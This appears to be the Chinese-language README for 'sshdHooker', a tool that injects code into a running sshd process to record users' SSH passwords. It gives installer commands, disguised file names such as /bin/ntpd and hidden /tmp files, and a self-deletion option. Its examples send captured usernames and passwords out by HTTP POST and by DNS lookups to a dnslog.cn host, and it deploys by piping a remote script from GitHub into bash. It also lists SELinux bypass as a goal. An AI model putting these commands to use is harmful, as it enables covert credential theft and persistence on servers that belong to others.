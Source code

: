 # what's this?

注入SSHD之后就能记录下密码或者做其他操作。


需要关闭selinux

[English](readme.md) | 中文文档

# how to use

## auto installer
密码记录器一键安装，仅暂时支持x64/aarch

直接执行命令
```
bash install.sh or bash install_aarch64.sh
```

直接运行后ssh密码登录，记录地址为/tmp/.password.txt，默认so地址为/tmp/hello.so，默认注入器名字为/tmp/.i


其他参数：
```
    -s   设置要注入的sshd的进程pid，一般会默认获取，如果获取不到或者自动获取错误了再使用这个参数
    -e   修改so文件的路径，默认/tmp/.g.so
    -o   修改注入器的路径，默认/bin/ntpd
    -m   修改mode默认值为0，输出到文件，默认记录地址为/tmp/.password.txt ，如果值为1，则会改为命令行模式
    -p   修改payload，默认值为/tmp/.password.txt，如果mode值为1，则会使用snsprintf来格式化命令并且输出，请确保字符串中包含两个%s，用于格式化用户名和密码
    -d   自动删除，设置为anyone则抓到密码后立刻删除，否则则抓取到设置的指定用户名后删除
    -l   指定libc路径，默认寻址是寻找libc-xxxx.so和libc.so.x的方案，但是不排除会有其他奇奇怪怪的libc名称，所以添加了手动指定功能，详情可以查看/proc/pid/maps里找到libc名字
```
## 例子

http发送密码
```
bash install.sh -p "curl -X POST -d 'username=%s\&password=%s' --connect-timeout 1 -m 1 http://127.0.0.1" -m 1
```

dns发送密码并且自动删除（请确保你的命令是不堵塞的，因为本程序的实现用的是system是单线程，命令如果堵塞将会导致ssh登录线程一并堵塞）
```
bash install.sh -p 'ping `echo %s-%s|xxd -ps`.k9lovy.dnslog.cn -c 1' -m 1 -d anyone
```

远程快速自动部署并自动删除
```
curl -L https://github.com/9bie/sshdHooker/releases/download/1.0.4/sshdHooker.sh | bash -s -- -d anyone
```

远程快速自动部署并通过http发送密码后并自动删除 (*推荐*)
```
curl -L https://github.com/9bie/sshdHooker/releases/download/1.0.4/sshdHooker.sh | bash -s -- -p "curl -X POST -d 'username=%s\&password=%s' --connect-timeout 1 -m 1 http://127.0.0.1" -m 1 -d anyone
```

## debug

执行
```

gcc -shared inject_got.c -ldl -fPIC -o test2.so -std=c99

mv test2.so /tmp/hello.so

gcc sshdHooker.c shellcode.s -g -o inject -ldl -lpthread

sudo ./inject sshd_pid
```

然后等待用户连接SSH并且登录成功，密码保存于/tmp/.password.txt

# todo

 - 增加x86/arm支持
 - bypass SELINUX